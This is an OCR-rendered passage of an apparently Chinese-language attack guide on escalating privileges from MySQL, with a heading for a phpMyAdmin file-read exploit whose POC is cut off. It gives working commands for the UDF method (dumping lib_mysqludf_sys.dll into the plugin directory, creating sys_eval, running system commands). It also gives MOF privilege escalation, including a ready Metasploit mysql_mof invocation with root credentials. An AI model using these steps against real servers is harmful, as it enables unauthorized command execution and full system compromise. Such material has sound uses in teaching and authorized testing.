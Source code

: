 ### **2.2 User defined funct ion（UDF）：**

适用于Windows和Linux环境，利用需要的条件：具有写权限+插件目录可写（或者可以更改指定的插件目录）。具体情况要看目标mysql的版本：
(1) Mysql version > 5.1 时，dll或者so必须位于mysql安装目录lib\plugin下，当对该目录具有写权限时可以利用，查看：

```
show variables like %plugin%；// 查看插件目录
```

(2) 5.0 <= Mysql version <5.1时，需要导出至目标服务器的系统目录，如C://Windows/System32
(3) Mysql version < 5.0 时，目录可以自定义具体利用如下：
a 根据目标mysql版本写入特定目录的so或者dll，可以参考sqlmap里面的

```
select 'It is dll' into dumpfile 'C:\Program Files\MySQL\MySQL Server 5.1\l ib\plugin\lib_mysqludf_sys.dll';
```

b 创建对应的function：

```
create function sys_eval returns string soname "lib_mysqludf_sys.dll";
```

c 执行命令：

```
select * from mysql.func where name = 'sys_eval';   	 #查看创建的sys_eval函数select sys_eval('whoami');                          			 #使用系统命令
```

### 2.3 MOF提权：

通过mysql将文件写入一个MOF文件替换掉原有的MOF文件，然后系统每隔五秒就会执行一次上传的MOF。一般适用于Windows <= 2003，并且C:\Windows\System32\mof目录具有写权限（一般是没有权限写）。可以使用MSF直接利用：

```
use exploit/windows/mysql/mysql_mof
set rhost 192.168.1.5
set rport 3306
set password root
set username root
exploit
```

## 0x03 PhpMyAdmin漏洞利用

### 3.1 WooYun-2016-199433：任意文件读取漏洞

影响范围：

```
phpMyAdmin version
	2.x版本
```

POC如下：

